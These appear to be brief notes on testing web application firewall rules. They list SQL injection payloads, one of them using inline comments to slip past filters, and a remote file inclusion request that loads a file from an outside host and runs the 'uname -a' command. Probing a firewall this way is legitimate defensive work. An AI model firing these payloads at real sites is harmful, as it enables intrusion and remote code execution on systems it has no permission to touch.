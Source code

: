 = WAF Rule testing

----
/?id=1+union+select+1,2,3/*
----

Or

----
/?id=1/*union*/union/*select*/select+1,2,3/*
----

on AKO I used the following
----
https://yourvsip/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
----
